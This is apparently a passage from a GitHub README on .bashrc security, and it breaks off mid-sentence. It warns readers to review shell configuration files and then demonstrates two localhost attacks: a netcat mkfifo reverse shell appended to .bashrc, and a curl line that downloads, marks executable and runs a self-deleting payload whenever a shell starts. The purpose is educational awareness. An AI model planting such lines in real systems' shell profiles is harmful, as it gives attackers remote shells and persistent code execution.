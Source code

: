 
## bashrc Security

As always, when researching custom `.bashrc`, `.zshrc`, or other shell configurations, *be absolutely sure you've reviewed the code before dropping it into a system*. These files make great targets for reverse connections and code execution, as they function like shell scripts. Anything with write access to these files can backdoor them.

Here are two practical examples you can try using localhost (these are not meant to harm your system, but it's always recommended to do things like this in a test environment such as a VM).


### Reverse Shell

This uses `netcat` to simulate a reverse shell.

On our "server" or the attacker's machine waiting to receive a connection:
```bash
nc -nvlp 1234 -s 127.0.1.1
```

On our "client", this line is added to the victim machine's .bashrc file:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -nv 127.0.1.1 1234 > /tmp/f
```

Running `source ~/.bashrc`, you'll notice the listener on the "attacker" side now has a shell on your system.


### Profile Backdoor

To be more realistic we'll use a python webserver to host a payload and `curl` to download it to memory and execute it.

We'll write a payload to delete itself silently after spawning `gnome-calculator`.

First `cd` to `~/Public` and write the following text to a file named `test.sh`:

```bash
#!/bin/bash

gnome-calculator&
rm "$0"
```

Then start our webserver using python's built in http.server module:

```bash
python3 -m http.server 1234 --bind 127.0.1.1
```

Now on the "victim" side, add the following line to the bottom of your `~/.bashrc` file:

```bash
curl -s http://127.0.1.1:1234/test.sh > /dev/shm/test.sh; chmod +x /dev/shm/test.sh; /dev/shm/test.sh
```

As soon as you `source ~/.bashrc` or open a new terminal tab / window, `gnome-calculator` will spawn. You'll also notice:
